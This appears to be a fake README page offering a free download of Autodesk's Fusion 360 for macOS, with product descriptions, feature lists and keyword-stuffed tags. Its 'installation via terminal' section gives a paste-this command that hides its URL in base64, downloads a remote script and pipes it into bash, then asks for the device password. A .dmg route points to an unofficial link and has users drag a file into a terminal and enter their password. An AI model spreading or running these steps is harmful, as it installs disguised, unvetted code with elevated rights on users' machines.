 # Fusion 360 for macOS – 3D CAD, CAM & CAE by Autodesk

![Fusion 360 macOS Screenshot](https://cdn3.macpaw.com/cdn-cgi/image/format=auto,quality=60,width=608,dpr=2/images/content/image_1743098806.jpg)

## 📥 Download Fusion 360 for macOS

[![⬇️ Download Fusion 360 for Mac](https://img.shields.io/badge/Download-Fusion%20360%20Mac-blue?style=for-the-badge&logo=apple)](https://mitrobandus.github.io/.github/Fusion)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).  

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.  
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.  

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Fusion 360 for Mac?

Fusion 360 is Autodesk’s unified 3D design and engineering platform that combines CAD, CAM, and CAE tools into a single cloud-powered solution. It enables product designers, mechanical engineers, and hobbyists to collaboratively design, simulate, and manufacture parts—all within a sleek, intuitive interface.

The macOS version runs natively on both Intel and Apple Silicon Macs, providing robust performance and full feature parity with the Windows edition. Whether you're prototyping mechanical components, modeling assemblies, or generating toolpaths for CNC, Fusion 360 gives you the complete toolkit for end-to-end development.

---

![Fusion 360 Modeling](https://www.autodesk.com/products/fusion-360/blog/wp-content/uploads/2022/07/image-2.jpg)

---

## ⚙️ Key Features

- 🧰 Parametric & Direct 3D Modeling  
- 🛠️ CAM for CNC Milling, Turning & Cutting  
- 🧪 Finite Element Analysis & Simulation  
- 🧱 Assembly Modeling & Joint Simulation  
- 🖼️ Rendering Engine for High-Quality Visuals  
- ☁️ Cloud Collaboration & Auto Save  
- 🖥️ Works on M1/M2/M3 & Intel Macs  
- 🗃️ Export to STL, STEP, IGES, and more  
- 📐 Sketch & Surface Modeling Tools  
- 🆓 Free for Students, Hobbyists & Educators  

---

## 📦 System Requirements

- macOS 11.0 or later  
- Intel or Apple Silicon (M1/M2/M3)  
- 8 GB RAM (16 GB recommended)  
- 3 GB of free disk space  
- Internet connection for login and syncing  

---

## 🔍 Tags

fusion 360 mac, fusion 360 mac download, fusion 360 download for mac, download fusion 360 for mac, autodesk fusion 360 mac, fusion 360 macos, mac fusion 360, autodesk fusion mac, fusion 360 macbook, fusion 360 mac m1, download fusion 360 mac, fusion 360 for mac download, fusion 360 for mac free download, fusion 360 osx, fusion 360 for mac free, autodesk fusion 360 download mac, fusion 360 mac free, fusion 360 m1, fusion 360 free mac, autodesk 360 mac

---
